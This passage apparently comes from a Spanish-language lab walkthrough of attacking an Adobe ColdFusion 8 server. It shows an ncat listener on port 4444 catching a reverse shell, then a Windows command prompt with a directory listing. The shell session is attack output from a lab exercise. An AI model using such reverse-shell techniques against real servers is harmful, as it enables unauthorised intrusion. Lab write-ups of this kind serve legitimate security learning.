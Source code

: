 ```
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
Ncat: Connection from 10.129.247.30:49866.

```

### **Caparazón**

Atacando a Coldfusion

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\ColdFusion8\runtime\bin

22/03/2017  08:53 ��    <DIR>          .
22/03/2017  08:53 ��    <DIR>          ..
18/03/2008  11:11 ��            64.512 java2wsdl.exe
19/01/2008  09:59 ��         2.629.632 jikes.exe
18/03/2008  11:11 ��            64.512 jrun.exe
18/03/2008  11:11 ��            71.680 jrunsvc.exe
18/03/2008  11:11 ��             5.120 jrunsvcmsg.dll
18/03/2008  11:11 ��            64.512 jspc.exe
22/03/2017  08:53 ��             1.804 jvm.config
18/03/2008  11:11 ��            64.512 migrate.exe
18/03/2008  11:11 ��            34.816 portscan.dll
18/03/2008  11:11 ��            64.512 sniffer.exe
18/03/2008  11:11 ��            78.848 WindowsLogin.dll
18/03/2008  11:11 ��            64.512 wsconfig.exe
22/03/2017  08:53 ��             1.013 wsconfig_jvm.config
18/03/2008  11:11 ��            64.512 wsdl2java.exe
18/03/2008  11:11 ��            64.512 xmlscript.exe
              15 File(s)      3.339.009 bytes
               2 Dir(s)   1.432.776.704 bytes free
```